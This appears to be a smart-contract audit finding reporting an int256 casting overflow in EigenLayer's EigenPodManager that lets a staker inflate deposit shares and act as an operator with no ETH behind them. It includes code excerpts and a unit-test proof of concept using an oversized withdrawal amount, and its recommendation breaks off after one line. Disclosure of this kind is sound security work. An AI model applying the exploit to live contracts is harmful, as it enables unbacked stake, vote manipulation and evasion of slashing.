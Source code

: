 ## Casting overflow in `EigenPodManager::removeDepositShares()` causes operators to participate with no backing ETH
### Summary

casting overflow in `EigenPodManager::removeDepositShares()` allows that attack to have `podOwnerDepositShares` non packed by any ETH, making any slashing act on him useless and makes his malicious activity on AVS to have no risks

### Finding Description

The vulnerability occurs in the queueWithdrawals function when processing withdrawals for beacon chain ETH strategy. 

The `EigenPodManager` tracks shares using `int256`, but the withdrawal amount is processed as `uint256`. When a withdrawal amount larger than type(int256).max is submitted, it causes the submitted amount to overflow to a negative amounts here
```solidity
File: EigenPodManager.sol
153:         int256 updatedShares = podOwnerDepositShares[staker] - int256(depositSharesToRemove);
```
then when calculating `updatedShares` by negating from the negative overflowed number it will be a big positive number (negating a negative number)

The problem is that in `DelegationManager::queueWithdrawals()` it was assumed that calls will revert on arithmetic overflows (user negating more shares that he has)
```solidity
File: DelegationManager.sol
180:     function queueWithdrawals(
191:             // Remove shares from staker's strategies and place strategies/shares in queue.
192:             // If the staker is delegated to an operator, the operator's delegated shares are also reduced
193:             // NOTE: This will fail if the staker doesn't have the shares implied by the input parameters.
194:             // The view function getWithdrawableShares() can be used to check what 
```
This is true for cases with strategyManagers, cause they track shares in uint256, unlike the `EigenPodManager` that unsafely casts to `int256`

Notice that iam aware of the fact that if the withdrawal got completed as shares (no way for it to be taken as token) the overflow will happen in `EigenPodManager::_addShares()` and it will revert
```solidity
File: EigenPodManager.sol
258:     function _addShares(address staker, uint256 shares) internal returns (uint256, uint256) {
259:         require(staker != address(0), InputAddressZero());
260:         require(int256(shares) >= 0, SharesNegative());
```
But the point is that we never want to complete it, we manipulated the shares amount in the storage already, and no one can force complete it on me due to this check
```solidity
File: DelegationManager.sol
548:         require(msg.sender == withdrawal.withdrawer, WithdrawerNotCaller());
```

Now after the overflow happens and the storage variable of that staker be in trillions, he can call `DelegationManager::registerAsOperator()`, cause he has to be not delegated to any one so that we don't revert during the flow of `queueWithdrawals()`
```solidity
File: DelegationManager.sol
460:     function _removeSharesAndQueueWithdrawal(
485:             // Remove delegated shares from the operator
486:             if (operator != address(0)) {
492:                 // forgefmt: disable-next-item
493:                 _decreaseDelegation({
494:                     operator: operator,
495:                     staker: staker,
496:                     strategy: strategies[i],
497:                     sharesToDecrease: withdrawableShares[i]
498:                 });
499:             }
.......................

674:     function _decreaseDelegation(
675:         address operator,
676:         address staker,
677:         IStrategy strategy,
678:         uint256 sharesToDecrease
679:     ) internal {
680:         // Decrement operator shares
681:         operatorShares[operator][strategy] -= sharesToDecrease;
682:         emit OperatorSharesDecreased(operator, staker, strategy, sharesToDecrease);
683:     }

```
in Line 681, he would have overflowed the operator shares when attempting to withdraw int256.max+

### Impact Explanation

High
- These artificial shares could be used to:
    - Manipulate voting power
    - Do malicious activity to the allocated AVS without a risk of losing any funds (shares doesn't correspond to ETH)
### Likelihood Explanation

The likelihood is High because:
doesn't require prerequisites

### Proof of Concept

The test demonstrates the vulnerability: paste it into `delegationUnit.t.sol`
```solidity
        function test_queueWithdrawals_overflowVulnerability() public {

        // Initial setup - give the staker some shares in EigenPodManager
        uint256 initialShares = 32e18;
        cheats.prank(address(delegationManagerMock));
        eigenPodManagerMock.setPodOwnerShares(defaultStaker, int256(initialShares));

        // Verify initial shares
        assertEq(eigenPodManagerMock.podOwnerDepositShares(defaultStaker), int256(initialShares), "Initial shares not set correctly");
        
        // Create withdrawal params with amount that will cause overflow
        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = beaconChainETHStrategy;
        uint256[] memory sharesToWithdraw = new uint256[](1);
        sharesToWithdraw[0] = uint256(type(int256).max) + 35e18; // This will cause overflow in EigenPodManager
        QueuedWithdrawalParams[] memory queuedWithdrawalParams = new QueuedWithdrawalParams[](1);
        queuedWithdrawalParams[0] = QueuedWithdrawalParams({
            strategies: strategies,
            depositShares: sharesToWithdraw,
            __deprecated_withdrawer: address(0)
        });
        
        // Queue the withdrawal
        cheats.prank(defaultStaker);
        delegationManager.queueWithdrawals(queuedWithdrawalParams);
        
        // Check that shares in EigenPodManager have been manipulated due to overflow
        int256 sharesAfter = eigenPodManagerMock.podOwnerDepositShares(defaultStaker);
        assertTrue(sharesAfter > int256(initialShares), "Shares should have increased due to overflow");
        console.log("Initial shares:", initialShares);
        console.log("Shares after attack:", uint256(sharesAfter));
    }
```

### Recommendation

To fix this vulnerability:
- Add validation of withdrawal amounts not to exceed `int256.max`:
